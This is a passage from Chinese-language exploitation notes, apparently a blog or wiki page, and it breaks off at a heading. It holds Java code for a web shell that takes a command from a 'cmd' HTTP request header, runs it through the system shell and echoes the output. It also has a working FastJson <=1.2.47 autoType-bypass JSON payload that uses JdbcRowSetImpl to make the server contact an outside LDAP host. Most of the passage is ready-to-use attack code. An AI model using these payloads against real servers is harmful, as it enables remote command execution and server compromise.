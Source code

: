 ```java
        try {
            Class requestContext = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method requestAttributes = requestContext.getMethod("getRequestAttributes");
            Object var2 = requestAttributes.invoke((Object)null);
            requestContext = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            requestAttributes = requestContext.getMethod("getResponse");
            Method var3 = requestContext.getMethod("getRequest");
            Object var4 = requestAttributes.invoke(var2);
            Object var5 = var3.invoke(var2);
            Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method header = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader", String.class);
            header.setAccessible(true);
            getWriter.setAccessible(true);
            Object writer = getWriter.invoke(var4);
            String var9 = (String)header.invoke(var5, "cmd");
            String[] command = new String[3];
            if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
                command[0] = "cmd";
                command[1] = "/c";
            } else {
                command[0] = "/bin/sh";
                command[1] = "-c";
            }

            command[2] = var9;
            writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, (new Scanner(Runtime.getRuntime().exec(command).getInputStream())).useDelimiter("\\A").next());
            writer.getClass().getDeclaredMethod("flush").invoke(writer);
            writer.getClass().getDeclaredMethod("close").invoke(writer);
        } catch (Exception var11) {
        }

    }
}
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1691402201438-156c8f79-7edf-431c-a727-52facf7a8cf7.png#averageHue=%23fdfdfd&clientId=u4fa7817a-05ac-4&from=paste&height=411&id=udf5c51a1&originHeight=514&originWidth=1137&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=105867&status=done&style=none&taskId=ua1cbf6d5-936f-434d-826c-f7500f0b817&title=&width=909.6)
# FastJson <=1.2.47
在FastJson1.2.47及其以前版本中，存在通杀方法，甚至不需要开启AutoTypeSupport。
本质上是使用的缓存cache到mappings中绕过限制。
## JdbcRowSetImpl
```java
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://10.30.1.214:1389/my9azs",
        "autoCommit":true
    }
}

```
## BCEL-1.2.36~1.2.47